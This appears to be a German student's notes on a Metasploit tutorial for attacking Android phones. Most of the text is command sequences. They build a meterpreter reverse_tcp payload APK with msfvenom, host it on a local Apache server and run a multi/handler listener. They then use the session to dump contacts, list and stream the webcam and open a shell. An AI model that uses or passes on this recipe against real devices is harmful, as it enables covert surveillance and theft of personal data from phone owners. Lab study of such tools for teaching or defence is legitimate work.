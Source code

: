 # android hacking with metasploit kali 
#### datum: 13.05.2020
[link](https://www.youtube.com/watch?v=YRm-St0bJhU)
---
###
> 1. es wird eine android applikation erstellt, mit einer einfachen view 
> 2. msfvenom (framework) 
> 2.1. msfpayload
> 2.2. msfencode 	

```
0. [new terminal 0]
1. [0] ifconfig 
2. [0] msfvenom -help 
3. [0] msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.23 LPORT=4444 R > /var/www/html/androidApp.apk
4. [0] service apache2 status 
5. [0] msfconsole 
6. [0] use exploit/mulit/handler
7. [0] set payload android/meterpreter/reverse-tcp 
8. [0] show options
9. [0] set LHOST 192.168.1.23 [ip-Virtual Box]
10. [0] show options
11. [0] exploit 
12. [0] background
13. [0] sessions
14. [0] sessions -i 1
15. [0] help
16. [0] app_list
17. [0] dump_contacts
18. [new terminal 1]
19. [1] cat contacts dump 20190915183350.txt
20. [0] webcam_list
21. [0] background
22. [0] exploit (muli/handler)
23. [0] sessions
24. [0] exploit
25. [0] background
26. [0] sessions
27. [0] sessions -i 8
28. [0] help
29. [0] webcam_list
30. [0] shell
31. [0] ls
32. [0] whoiam
33. [0] pwd
34. 
```
---
### prof. 
> snap-shot mit der handykamera
```
0. use exploit/multi/handler
1. set payload android/meterpreter/reverse_tcp
2. set lhost 192.168.0.132
3. show options 
4. exploit 
5. webcam_steam -h // get help
6. webcam_list
7. webcam_stream -d 5 -i 1 // d (duration aufnahmezeit/ index of webcam)
8. [rage quit]
9. cd /home/kali/
10. msfconsole
11. [alles wie vorher]
12. webcam_stream -d 5 -i 1 
13. cp [daten] /var/www/html 
14. 
```